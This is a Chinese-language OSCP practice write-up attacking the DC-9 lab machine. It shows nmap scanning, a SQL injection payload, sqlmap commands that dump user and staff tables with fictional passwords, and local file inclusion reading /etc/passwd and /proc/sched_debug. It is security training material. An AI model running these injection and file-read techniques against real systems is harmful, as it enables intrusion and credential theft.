

# OSCP

>  like > dc-9

~~~markdown
写在前面:
	本记录为本人练习OSCP习题使用,内容涉及的渗透手法及工具均在合理合法的环境下使用。
~~~

### 1. 靶机配置

>  将靶机与kali的网络连接都设置为NAT模式即可,(注: 桥接模式可能会被局域网内其他主机ip干扰)


### 2.局域网内主机探测

~~~markdown
利用arp-scan -l 来探测内网主机ip,从而获得靶机地址:192.168.81.131
~~~


~~~markdown
利用nmap -sS -T4 -p- 192.168.81.131 快速全面扫描目标主机开放的端口,可以看到80端口open,22端口可能开放。
~~~


### 3.Fuzz目标服务

~~~markdown
  通过访问192.168.81.131, 对网站进行fuzz测试发现Search模块存在Sql注入:构造1' or 1=1# 回显异常,利用burpsuite + sqlmap 注入,Proxy->Intercept->右键->save item 保存为文档.
~~~


~~~
sqlmap -r demo --dbs #尝试注入,跑出三个数据库
~~~


~~~markdown
依次对Staff、users里的表中字段dump
sqlmap -r demo -D users --dump -batch >> users_dbs
sqlmap -r demo -D Staff --dump -batch >> staff_dbs
~~~

~~~mysql
dbs_staff_table_StaffDetails

+----+-----------------------+----------------+------------+---------------------+-----------+-------------------------------+
| id | email                 | phone          | lastname   | reg_date            | firstname | position                      |
+----+-----------------------+----------------+------------+---------------------+-----------+-------------------------------+
| 1  | marym@example.com     | 46478415155456 | Moe        | 2019-05-01 17:32:00 | Mary      | CEO                           |
| 2  | julied@example.com    | 46457131654    | Dooley     | 2019-05-01 17:32:00 | Julie     | Human Resources               |
| 3  | fredf@example.com     | 46415323       | Flintstone | 2019-05-01 17:32:00 | Fred      | Systems Administrator         |
| 4  | barneyr@example.com   | 324643564      | Rubble     | 2019-05-01 17:32:00 | Barney    | Help Desk                     |
| 5  | tomc@example.com      | 802438797      | Cat        | 2019-05-01 17:32:00 | Tom       | Driver                        |
| 6  | jerrym@example.com    | 24342654756    | Mouse      | 2019-05-01 17:32:00 | Jerry     | Stores                        |
| 7  | wilmaf@example.com    | 243457487      | Flintstone | 2019-05-01 17:32:00 | Wilma     | Accounts                      |
| 8  | bettyr@example.com    | 90239724378    | Rubble     | 2019-05-01 17:32:00 | Betty     | Junior Accounts               |
| 9  | chandlerb@example.com | 189024789      | Bing       | 2019-05-01 17:32:00 | Chandler  | President - Sales             |
| 10 | joeyt@example.com     | 232131654      | Tribbiani  | 2019-05-01 17:32:00 | Joey      | Janitor                       |
| 11 | rachelg@example.com   | 823897243978   | Green      | 2019-05-01 17:32:00 | Rachel    | Personal Assistant            |
| 12 | rossg@example.com     | 6549638203     | Geller     | 2019-05-01 17:32:00 | Ross      | Instructor                    |
| 13 | monicag@example.com   | 8092432798     | Geller     | 2019-05-01 17:32:00 | Monica    | Marketing                     |
| 14 | phoebeb@example.com   | 43289079824    | Buffay     | 2019-05-01 17:32:02 | Phoebe    | Assistant Janitor             |
| 15 | scoots@example.com    | 454786464      | McScoots   | 2019-05-01 20:16:33 | Scooter   | Resident Cat                  |
| 16 | janitor@example.com   | 65464646479741 | Trump      | 2019-12-23 03:11:39 | Donald    | Replacement Janitor           |
| 17 | janitor2@example.com  | 47836546413    | Morrison   | 2019-12-24 03:41:04 | Scott     | Assistant Replacement Janitor |
| 18 | <blank>               | <blank>        | <blank>    | 2021-05-04 17:03:39 | <blank>   | <blank>                       |
+----+-----------------------+----------------+------------+---------------------+-----------+-------------------------------+

dbs_staff_table_users

+--------+--------------------------------------------------+----------+
| UserID | Password                                         | Username |
+--------+--------------------------------------------------+----------+
| 1      | 856f5de590ef37314e7c3bdf6f8a66dc (transorbital1) | admin    | ⭐
+--------+--------------------------------------------------+----------+

dbs_users
+----+------------+---------------+---------------------+-----------+-----------+
| id | lastname   | password      | reg_date            | username  | firstname |
+----+------------+---------------+---------------------+-----------+-----------+
| 1  | Moe        | 3kfs86sfd     | 2019-12-29 16:58:26 | marym     | Mary      |
| 2  | Dooley     | 468sfdfsd2    | 2019-12-29 16:58:26 | julied    | Julie     |
| 3  | Flintstone | 4sfd87sfd1    | 2019-12-29 16:58:26 | fredf     | Fred      |
| 4  | Rubble     | RocksOff      | 2019-12-29 16:58:26 | barneyr   | Barney    |
| 5  | Cat        | TC&TheBoyz    | 2019-12-29 16:58:26 | tomc      | Tom       |
| 6  | Mouse      | B8m#48sd      | 2019-12-29 16:58:26 | jerrym    | Jerry     |
| 7  | Flintstone | Pebbles       | 2019-12-29 16:58:26 | wilmaf    | Wilma     |
| 8  | Rubble     | BamBam01      | 2019-12-29 16:58:26 | bettyr    | Betty     |
| 9  | Bing       | UrAG0D!       | 2019-12-29 16:58:26 | chandlerb | Chandler  |
| 10 | Tribbiani  | Passw0rd      | 2019-12-29 16:58:26 | joeyt     | Joey      |
| 11 | Green      | yN72#dsd      | 2019-12-29 16:58:26 | rachelg   | Rachel    |
| 12 | Geller     | ILoveRachel   | 2019-12-29 16:58:26 | rossg     | Ross      |
| 13 | Geller     | 3248dsds7s    | 2019-12-29 16:58:26 | monicag   | Monica    |
| 14 | Buffay     | smellycats    | 2019-12-29 16:58:26 | phoebeb   | Phoebe    |
| 15 | McScoots   | YR3BVxxxw87   | 2019-12-29 16:58:26 | scoots    | Scooter   |
| 16 | Trump      | Ilovepeepee   | 2019-12-29 16:58:26 | janitor   | Donald    |
| 17 | Morrison   | Hawaii-Five-0 | 2019-12-29 16:58:28 | janitor2  | Scott     |
+----+------------+---------------+---------------------+-----------+-----------+
~~~

~~~markdown
  从上边数据可以看到有admin账户,直接登录查看是否含有有用信息,可以看到功能多了Add Record且页面下方有File does not exist字段,提示为LFI(Loacl File Include),测试Add Record无发现。
~~~


~~~markdown
LFI读取etc/passwd
~~~


~~~markdown
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:106:113:MySQL Server,,,:/nonexistent:/bin/false
marym:x:1001:1001:Mary Moe:/home/marym:/bin/bash
julied:x:1002:1002:Julie Dooley:/home/julied:/bin/bash
fredf:x:1003:1003:Fred Flintstone:/home/fredf:/bin/bash
barneyr:x:1004:1004:Barney Rubble:/home/barneyr:/bin/bash
tomc:x:1005:1005:Tom Cat:/home/tomc:/bin/bash
jerrym:x:1006:1006:Jerry Mouse:/home/jerrym:/bin/bash
wilmaf:x:1007:1007:Wilma Flintstone:/home/wilmaf:/bin/bash
bettyr:x:1008:1008:Betty Rubble:/home/bettyr:/bin/bash
chandlerb:x:1009:1009:Chandler Bing:/home/chandlerb:/bin/bash
joeyt:x:1010:1010:Joey Tribbiani:/home/joeyt:/bin/bash
rachelg:x:1011:1011:Rachel Green:/home/rachelg:/bin/bash
rossg:x:1012:1012:Ross Geller:/home/rossg:/bin/bash
monicag:x:1013:1013:Monica Geller:/home/monicag:/bin/bash
phoebeb:x:1014:1014:Phoebe Buffay:/home/phoebeb:/bin/bash
scoots:x:1015:1015:Scooter McScoots:/home/scoots:/bin/bash
janitor:x:1016:1016:Donald Trump:/home/janitor:/bin/bash
janitor2:x:1017:1017:Scott Morrison:/home/janitor2:/bin/bash

可以看到
marym
julied
fredf
barneyr
tomc
jerrym
wilmaf
bettyr
chandlerb
joeyt
rachelg
rossg
monicag
phoebeb
scoots
janitor
janitor2
跟上边数据库中抓到的数据有重合
~~~


#### 误区!!!

~~~markdown
在url后?args=(../)*n/file_name 对本地文件进行fuzz,

这里百度上几乎所有的文章都对Fuzz的knocked.conf一笔带过,github上fuzzdb、常用的LFI字典里边目前我搜的都没有knocked这个关键字,我不懂他们是怎么fuzz的?,单暴力破解26个英文字母4-6位载荷数量级惊人。
~~~


~~~markdown
Youtube上有一位代佬的视频中提示了linux系统两个比较重要的文件 
1. /proc/self/fd/0-100 查看的类似系统进程的内容pipe self是指当前用户
2. /proc/sched_debug   进程及detail # https://blog.csdn.net/wudongxu/article/details/8574755 

因此我们尝试读取这两种文件 第一个是/fd/0 /fd/1 .....到/fd/100 
~~~


~~~markdown
可以看到第一种方案返回结果为0,fuzz不到文件,但第二种成功返回了sched_debug的内容

sched_debug

Sched Debug Version: v0.11, 4.19.0-6-amd64 #1
ktime                                   : 1363823.235491
sched_clk                               : 1363941.955771
cpu_clk                                 : 1363931.607790
jiffies                                 : 4295233202
sched_clock_stable()                    : 1

sysctl_sched
  .sysctl_sched_latency                    : 6.000000
  .sysctl_sched_min_granularity            : 0.750000
  .sysctl_sched_wakeup_granularity         : 1.000000
  .sysctl_sched_child_runs_first           : 0
  .sysctl_sched_features                   : 4118331
  .sysctl_sched_tunable_scaling            : 1 (logaritmic)

cpu#0, 2591.999 MHz
  .nr_running                    : 2
  .load                          : 2097152
  .nr_switches                   : 163625
  .nr_load_updates               : 74893
  .nr_uninterruptible            : 0
  .next_balance                  : 4294.892296
  .curr->pid                     : 753
  .clock                         : 1363931.856372
  .clock_task                    : 1363931.856372
  .cpu_load[0]                   : 0
  .cpu_load[1]                   : 0
  .cpu_load[2]                   : 0
  .cpu_load[3]                   : 0
  .cpu_load[4]                   : 0
  .avg_idle                      : 1000000
  .max_idle_balance_cost         : 500000

cfs_rq[0]:/
  .exec_clock                    : 0.000000
  .MIN_vruntime                  : 23342.771595
  .min_vruntime                  : 23342.771595
  .max_vruntime                  : 23342.771595
  .spread                        : 0.000000
  .spread0                       : 0.000000
  .nr_spread_over                : 0
  .nr_running                    : 2
  .load                          : 2097152
  .runnable_weight               : 2097152
  .load_avg                      : 22
  .runnable_load_avg             : 10
  .util_avg                      : 11
  .util_est_enqueued             : 64
  .removed.load_avg              : 0
  .removed.util_avg              : 0
  .removed.runnable_sum          : 0
  .tg_load_avg_contrib           : 0
  .tg_load_avg                   : 0
  .throttled                     : 0
  .throttle_count                : 0

rt_rq[0]:
  .rt_nr_running                 : 0
  .rt_nr_migratory               : 0
  .rt_throttled                  : 0
  .rt_time                       : 0.000000
  .rt_runtime                    : 950.000000

dl_rq[0]:
  .dl_nr_running                 : 0
  .dl_nr_migratory               : 0
  .dl_bw->bw                     : 996147
  .dl_bw->total_bw               : 0

runnable tasks:
 S           task   PID         tree-key  switches  prio     wait-time             sum-exec        sum-sleep
-----------------------------------------------------------------------------------------------------------
 S        systemd     1     23298.741023      2199   120         0.000000      1954.757008         0.000000 0 0 /
 S       kthreadd     2      5216.931630       225   120         0.000000         5.914625         0.000000 0 0 /
 I         rcu_gp     3        13.968561         2   100         0.000000         0.003073         0.000000 0 0 /
 I     rcu_par_gp     4        15.968981         2   100         0.000000         0.001802         0.000000 0 0 /
 I   kworker/0:0H     6      2490.497750         7   100         0.000000         0.443335         0.000000 0 0 /
 I   mm_percpu_wq     8        21.541210         2   100         0.000000         0.002582         0.000000 0 0 /
 S    ksoftirqd/0     9     23339.783523      1337   120         0.000000        58.716973         0.000000 0 0 /
 I      rcu_sched    10     23339.807736     24073   120         0.000000       278.224571         0.000000 0 0 /
 I         rcu_bh    11        27.543513         2   120         0.000000         0.001304         0.000000 0 0 /
 S    migration/0    12         0.000000       346     0         0.000000         7.737137         0.000000 0 0 /
 R    kworker/0:1    13     23342.771595     23551   120         0.000000      1338.405481         0.000000 0 0 /
 S        cpuhp/0    14      5219.333430        11   120         0.000000         0.108223         0.000000 0 0 /
 S      kdevtmpfs    15      5073.989159       141   120         0.000000         1.496140         0.000000 0 0 /
 I          netns    16        39.579574         2   100         0.000000         0.000000         0.000000 0 0 /
 S        kauditd    17      4173.259657         4   120         0.000000         0.041994         0.000000 0 0 /
 S     khungtaskd    18     23289.576593        13   120         0.000000         0.522072         0.000000 0 0 /
 S     oom_reaper    19        45.579571         2   120         0.000000         0.000000         0.000000 0 0 /
 I      writeback    20        47.579570         2   100         0.000000         0.000000         0.000000 0 0 /
 S     kcompactd0    21        49.579569         2   120         0.000000         0.000000         0.000000 0 0 /
 S           ksmd    22        51.579568         2   125         0.000000         0.000000         0.000000 0 0 /
 S     khugepaged    23     23341.524333       139   139         0.000000       209.612228         0.000000 0 0 /
 I         crypto    24        55.579566         2   100         0.000000         0.000000         0.000000 0 0 /
 I    kintegrityd    25        57.579565         2   100         0.000000         0.000000         0.000000 0 0 /
 I        kblockd    26        59.581500         2   100         0.000000         0.004363         0.000000 0 0 /
 I    edac-poller    27       280.314389         2   100         0.000000         0.004182         0.000000 0 0 /
 I     devfreq_wq    28       281.816448         2   100         0.000000         0.004964         0.000000 0 0 /
 S      watchdogd    29         0.000000         2     0         0.000000         0.002480         0.000000 0 0 /
 S        kswapd0    30      1600.698719         3   120         0.000000         0.015416         0.000000 0 0 /
 I       kthrotld    48      1718.556529         2   100         0.000000         0.004168         0.000000 0 0 /
 S  irq/24-pciehp    49         0.000000         2    49         0.000000         0.007061         0.000000 0 0 /
 S  irq/25-pciehp    50         0.000000         2    49         0.000000         0.002780         0.000000 0 0 /
 S  irq/26-pciehp    51         0.000000         2    49         0.000000         0.002644         0.000000 0 0 /
 S  irq/27-pciehp    52         0.000000         2    49         0.000000         0.002588         0.000000 0 0 /
 S  irq/28-pciehp    53         0.000000         2    49         0.000000         0.004386         0.000000 0 0 /
 S  irq/29-pciehp    54         0.000000         2    49         0.000000         0.002627         0.000000 0 0 /
 S  irq/30-pciehp    55         0.000000         2    49         0.000000         0.002805         0.000000 0 0 /
 S  irq/31-pciehp    56         0.000000         2    49         0.000000         0.002770         0.000000 0 0 /
 S  irq/32-pciehp    57         0.000000         2    49         0.000000         0.002764         0.000000 0 0 /
 S  irq/33-pciehp    58         0.000000         2    49         0.000000         0.002855         0.000000 0 0 /
 S  irq/34-pciehp    59         0.000000         2    49         0.000000         0.002623         0.000000 0 0 /
 S  irq/35-pciehp    60         0.000000         2    49         0.000000         0.002732         0.000000 0 0 /
 S  irq/36-pciehp    61         0.000000         2    49         0.000000         0.004351         0.000000 0 0 /
 S  irq/37-pciehp    62         0.000000         2    49         0.000000         0.002785         0.000000 0 0 /
 S  irq/38-pciehp    63         0.000000         2    49         0.000000         0.004362         0.000000 0 0 /
 S  irq/39-pciehp    64         0.000000         2    49         0.000000         0.002660         0.000000 0 0 /
 S  irq/40-pciehp    65         0.000000         2    49         0.000000         0.004539         0.000000 0 0 /
 S  irq/41-pciehp    66         0.000000         2    49         0.000000         0.004581         0.000000 0 0 /
 S  irq/42-pciehp    67         0.000000         2    49         0.000000         0.004635         0.000000 0 0 /
 S  irq/43-pciehp    68         0.000000         2    49         0.000000         0.004597         0.000000 0 0 /
 S  irq/44-pciehp    69         0.000000         2    49         0.000000         0.002634         0.000000 0 0 /
 S  irq/45-pciehp    70         0.000000         2    49         0.000000         0.002826         0.000000 0 0 /
 S  irq/46-pciehp    71         0.000000         2    49         0.000000         0.017789         0.000000 0 0 /
 S  irq/47-pciehp    72         0.000000         2    49         0.000000         0.002888         0.000000 0 0 /
 S  irq/48-pciehp    73         0.000000         2    49         0.000000         0.002584         0.000000 0 0 /
 S  irq/49-pciehp    74         0.000000         2    49         0.000000         0.002371         0.000000 0 0 /
 S  irq/50-pciehp    75         0.000000         2    49         0.000000         0.003730         0.000000 0 0 /
 S  irq/51-pciehp    76         0.000000         2    49         0.000000         0.002942         0.000000 0 0 /
 S  irq/52-pciehp    77         0.000000         2    49         0.000000         0.001841         0.000000 0 0 /
 S  irq/53-pciehp    78         0.000000         2    49         0.000000         0.002305         0.000000 0 0 /
 S  irq/54-pciehp    79         0.000000         2    49         0.000000         0.002191         0.000000 0 0 /
 S  irq/55-pciehp    80         0.000000         2    49         0.000000         0.002203         0.000000 0 0 /
 I  ipv6_addrconf    81      1863.521086         2   100         0.000000         0.003518         0.000000 0 0 /
 I          kstrp    91      1894.949305         2   100         0.000000         0.004828         0.000000 0 0 /
 I        ata_sff   134      2184.411184         2   100         0.000000         0.007236         0.000000 0 0 /
 S      scsi_eh_0   136      2270.078276         4   120         0.000000        13.038195         0.000000 0 0 /
 I     scsi_tmf_0   138      2185.918359         2   100         0.000000         0.007334         0.000000 0 0 /
 S      scsi_eh_1   140      2273.828040         4   120         0.000000        16.773579         0.000000 0 0 /
 I     scsi_tmf_1   142      2187.672767         2   100         0.000000         0.007169         0.000000 0 0 /
 S      scsi_eh_2   149      2475.307741        22   120         0.000000         0.831563         0.000000 0 0 /
 I     scsi_tmf_2   151      2194.698306         2   100         0.000000         0.004717         0.000000 0 0 /
 S      scsi_eh_3   152      2475.134929        22   120         0.000000         0.330017         0.000000 0 0 /
 I     scsi_tmf_3   154      2196.566048         2   100         0.000000         0.010783         0.000000 0 0 /
 S      scsi_eh_4   155      2475.112228        22   120         0.000000         2.946654         0.000000 0 0 /
 I     scsi_tmf_4   156      2198.969905         2   100         0.000000         0.004275         0.000000 0 0 /
 S      scsi_eh_5   157      2475.100160        22   120         0.000000         2.467090         0.000000 0 0 /
 I     scsi_tmf_5   158      2201.372298         2   100         0.000000         0.004017         0.000000 0 0 /
 S      scsi_eh_6   159      2475.112756        22   120         0.000000         0.188860         0.000000 0 0 /
 I     scsi_tmf_6   161      2203.779514         2   100         0.000000         0.008813         0.000000 0 0 /
 S      scsi_eh_7   162      2475.100039        22   120         0.000000         0.258727         0.000000 0 0 /
 I     scsi_tmf_7   164      2206.181254         2   100         0.000000         0.003927         0.000000 0 0 /
 S      scsi_eh_8   166      2475.402939        22   120         0.000000         0.411831         0.000000 0 0 /
 I     scsi_tmf_8   168      2208.584339         2   100         0.000000         0.005223         0.000000 0 0 /
 S      scsi_eh_9   170      2475.404096        22   120         0.000000         0.246442         0.000000 0 0 /
 I     scsi_tmf_9   171      2210.991607         2   100         0.000000         0.004956         0.000000 0 0 /
 S     scsi_eh_10   173      2475.420213        22   120         0.000000         0.339629         0.000000 0 0 /
 I    scsi_tmf_10   174      2213.394314         2   100         0.000000         0.004202         0.000000 0 0 /
 S     scsi_eh_11   176      2477.704500        22   120         0.000000         2.376321         0.000000 0 0 /
 I    scsi_tmf_11   179      2215.798671         2   100         0.000000         0.005585         0.000000 0 0 /
 S     scsi_eh_12   181      2477.689932        22   120         0.000000         0.178446         0.000000 0 0 /
 I    scsi_tmf_12   182      2218.203829         2   100         0.000000         0.006066         0.000000 0 0 /
 S     scsi_eh_13   184      2478.266121        22   120         0.000000         1.051914         0.000000 0 0 /
 I    scsi_tmf_13   185      2220.634021         2   100         0.000000         0.003804         0.000000 0 0 /
 S     scsi_eh_14   187      2479.173759        22   120         0.000000         4.214735         0.000000 0 0 /
 I    scsi_tmf_14   189      2223.036155         2   100         0.000000         0.003028         0.000000 0 0 /
 S     scsi_eh_15   191      2479.186507        22   120         0.000000         0.160588         0.000000 0 0 /
 I    scsi_tmf_15   193      2225.441487         2   100         0.000000         0.005501         0.000000 0 0 /
 S     scsi_eh_16   195      2481.169662        22   120         0.000000         3.992016         0.000000 0 0 /
 I    scsi_tmf_16   196      2227.843268         2   100         0.000000         0.003282         0.000000 0 0 /
 S     scsi_eh_17   198      2481.359231        22   120         0.000000         3.004424         0.000000 0 0 /
 I    scsi_tmf_17   200      2230.246835         2   100         0.000000         0.003944         0.000000 0 0 /
 S     scsi_eh_18   202      2481.368768        22   120         0.000000         0.207758         0.000000 0 0 /
 I    scsi_tmf_18   204      2232.651299         2   100         0.000000         0.005647         0.000000 0 0 /
 S     scsi_eh_19   205      2481.354395        22   120         0.000000         0.176588         0.000000 0 0 /
 I    scsi_tmf_19   207      2234.853451         2   100         0.000000         0.003464         0.000000 0 0 /
 S     scsi_eh_20   208      2482.405627        22   120         0.000000         0.595751         0.000000 0 0 /
 I    scsi_tmf_20   210      2237.256039         2   100         0.000000         0.004610         0.000000 0 0 /
 S     scsi_eh_21   212      2483.948665        23   120         0.000000         2.218735         0.000000 0 0 /
 I    scsi_tmf_21   214      2239.659527         2   100         0.000000         0.032218         0.000000 0 0 /
 S     scsi_eh_22   215      2483.947908        23   120         0.000000         0.180987         0.000000 0 0 /
 I    scsi_tmf_22   216      2242.062989         2   100         0.000000         0.004861         0.000000 0 0 /
 S     scsi_eh_23   218      2483.963362        23   120         0.000000         0.232948         0.000000 0 0 /
 I    scsi_tmf_23   219      2244.464322         2   100         0.000000         0.002622         0.000000 0 0 /
 S     scsi_eh_24   221      2484.254214        23   120         0.000000         3.806766         0.000000 0 0 /
 I    scsi_tmf_24   223      2246.867750         2   100         0.000000         0.004592         0.000000 0 0 /
 S     scsi_eh_25   224      2484.269582        23   120         0.000000         0.578848         0.000000 0 0 /
 I    scsi_tmf_25   225      2249.273062         2   100         0.000000         0.004917         0.000000 0 0 /
 S     scsi_eh_26   227      2484.253978        23   120         0.000000         0.224902         0.000000 0 0 /
 I    scsi_tmf_26   228      2251.683689         2   100         0.000000         0.007020         0.000000 0 0 /
 S     scsi_eh_27   230      2484.282875        23   120         0.000000         2.674167         0.000000 0 0 /
 I    scsi_tmf_27   232      2254.092927         2   100         0.000000         0.008210         0.000000 0 0 /
 S     scsi_eh_28   233      2484.260182        23   120         0.000000         0.188395         0.000000 0 0 /
 I    scsi_tmf_28   234      2256.594000         2   100         0.000000         0.003046         0.000000 0 0 /
 S     scsi_eh_29   235      2484.271523        22   120         0.000000         3.802971         0.000000 0 0 /
 I    scsi_tmf_29   236      2259.602423         2   100         0.000000         0.006562         0.000000 0 0 /
 S     scsi_eh_30   237      2484.287234        22   120         0.000000         2.135813         0.000000 0 0 /
 I    kworker/0:2   238      5288.678987        53   120         0.000000         0.562382         0.000000 0 0 /
 I    scsi_tmf_30   239      2262.005441         2   100         0.000000         0.003636         0.000000 0 0 /
 S     scsi_eh_31   240      2484.267967        22   120         0.000000         2.563262         0.000000 0 0 /
 I    scsi_tmf_31   241      2265.009356         2   100         0.000000         0.005656         0.000000 0 0 /
 I  kworker/u2:28   266     23338.031404       193   120         0.000000       116.743739         0.000000 0 0 /
 I  kworker/u2:29   267      5227.039831        78   120         0.000000         1.378908         0.000000 0 0 /
 I   kworker/0:1H   269     23338.010805      2533   100         0.000000       107.158045         0.000000 0 0 /
 I   kworker/u3:0   297      2703.286070         2   100         0.000000         0.004400         0.000000 0 0 /
 S    jbd2/sda1-8   299     23331.047999       119   120         0.000000        84.889174         0.000000 0 0 /
 Iext4-rsv-conver   300      2765.314623         2   100         0.000000         0.006284         0.000000 0 0 /
 Ssystemd-journal   328     23202.936055       426   120         0.000000       482.325610         0.000000 0 0 /
 S  systemd-udevd   353     23298.808138      1452   120         0.000000      1451.385597         0.000000 0 0 /
 Ssystemd-timesyn   367     23227.116998       100   120         0.000000        62.773168         0.000000 0 0 /
 S     sd-resolve   371     11130.850039        20   120         0.000000         5.849881         0.000000 0 0 /
 I       ttm_swap   406      4685.218579         2   100         0.000000         0.008575         0.000000 0 0 /
 S  irq/16-vmwgfx   407         0.000000         3    49         0.000000         3.680176         0.000000 0 0 /
 S       dhclient   441     21666.381293        83   120         0.000000        17.393699         0.000000 0 0 /
 S    dbus-daemon   492     23226.564018       273   120         0.000000        34.703146         0.000000 0 0 /
 S       rsyslogd   493     22966.752099        78   120         0.000000        14.680538         0.000000 0 0 /
 S    in:imuxsock   540     21687.036039        40   120         0.000000         2.497447         0.000000 0 0 /
 S      in:imklog   541      5410.284474         5   120         0.000000         7.789467         0.000000 0 0 /
 S  rs:main Q:Reg   542     21687.112165        60   120         0.000000         9.047668         0.000000 0 0 /
 S systemd-logind   494     23202.953863       135   120         0.000000        47.814343         0.000000 0 0 /
 S           cron   496     23320.469441        58   120         0.000000         7.643975         0.000000 0 0 /
 S         agetty   504      6364.316087        35   120         0.000000         5.025451         0.000000 0 0 /
 S         knockd   550      5476.432340        24   120         0.000000         5.070083         0.000000 0 0 /
 S           sshd   563      5532.734398        13   120         0.000000        11.921721         0.000000 0 0 /
 S         mysqld   605     23339.807836       707   120         0.000000       539.151603         0.000000 0 0 /
 S         mysqld   607      6375.657054         1   120         0.000000         0.078394         0.000000 0 0 /
 S         mysqld   622     23307.666120        45   120         0.000000         1.515680         0.000000 0 0 /
 S         mysqld   649     23338.647359      2670   120         0.000000        20.368171         0.000000 0 0 /
 S         mysqld   650     23338.646924      2675   120         0.000000        45.150122         0.000000 0 0 /
 S         mysqld   651     23338.646863      2670   120         0.000000        23.593470         0.000000 0 0 /
 S         mysqld   652     23338.681188      2670   120         0.000000        36.361870         0.000000 0 0 /
 S         mysqld   653     23338.649785      2670   120         0.000000        23.415639         0.000000 0 0 /
 S         mysqld   654     23338.647020      2670   120         0.000000        24.081230         0.000000 0 0 /
 S         mysqld   655     23338.647237      2724   120         0.000000        57.565013         0.000000 0 0 /
 S         mysqld   656     23338.648572      2733   120         0.000000        27.531068         0.000000 0 0 /
 S         mysqld   657     23338.647893      2673   120         0.000000        37.238837         0.000000 0 0 /
 S         mysqld   658     23338.646990      2670   120         0.000000        29.900201         0.000000 0 0 /
 S         mysqld   659     23339.675473      1469   120         0.000000        67.594396         0.000000 0 0 /
 S         mysqld   662     23338.532477      1339   120         0.000000        40.607936         0.000000 0 0 /
 S         mysqld   663     23338.571128      1339   120         0.000000        51.483402         0.000000 0 0 /
 S         mysqld   664     23338.183977       269   120         0.000000         3.361322         0.000000 0 0 /
 S         mysqld   665     23338.012937       135   120         0.000000         7.069271         0.000000 0 0 /
 S         mysqld   666     23338.211344       269   120         0.000000         9.772652         0.000000 0 0 /
 S         mysqld   667     23339.675124      1349   120         0.000000        52.515332         0.000000 0 0 /
 S         mysqld   668     23111.467075        94   120         0.000000         4.959517         0.000000 0 0 /
 S         mysqld   669     23111.379857        38   120         0.000000         0.441492         0.000000 0 0 /
 S         mysqld   670     23111.380196        38   120         0.000000         0.569584         0.000000 0 0 /
 S         mysqld   671     23111.381263        40   120         0.000000         2.068618         0.000000 0 0 /
 S         mysqld   672      6834.454847        17   120         0.000000         6.301853         0.000000 0 0 /
 S         mysqld   673     23339.676823      1339   120         0.000000        33.246796         0.000000 0 0 /
 S         mysqld   674      6823.097471         1   120         0.000000         0.016293         0.000000 0 0 /
 S         mysqld   675      6831.490528         3   120         0.000000         0.253912         0.000000 0 0 /
 S         mysqld   676      6833.713585         3   120         0.000000         0.124039         0.000000 0 0 /
 S         mysqld   677      6846.220993        12   120         0.000000         1.577972         0.000000 0 0 /
 S         mysqld   745     23225.132710       158   120         0.000000        20.908435         0.000000 0 0 /
 S         mysqld   748     23225.534882       161   120         0.000000        15.640350         0.000000 0 0 /
 S         mysqld   755     23225.135046        76   120         0.000000         6.355306         0.000000 0 0 /
 S         mysqld   759     23339.906557        45   120         0.000000         2.596558         0.000000 0 0 /
 S         mysqld   760     23225.149309        40   120         0.000000         1.814341         0.000000 0 0 /
 S         mysqld   761     23226.235268        34   120         0.000000         1.797042         0.000000 0 0 /
 S         mysqld   762     23326.371622        33   120         0.000000         2.385741         0.000000 0 0 /
 S        apache2   606     23339.680549      1441   120         0.000000       116.085234         0.000000 0 0 /
 S        apache2   608     23229.513684       280   120         0.000000       221.187662         0.000000 0 0 /
 S        apache2   609     23226.587269       199   120         0.000000       219.536240         0.000000 0 0 /
 S        apache2   610     23227.707662       224   120         0.000000       246.732000         0.000000 0 0 /
 S        apache2   611     23228.346572       171   120         0.000000       245.923073         0.000000 0 0 /
 S        apache2   612     23226.598033       116   120         0.000000       219.425844         0.000000 0 0 /
 S        apache2   742     23331.801092       189   120         0.000000       324.045078         0.000000 0 0 /
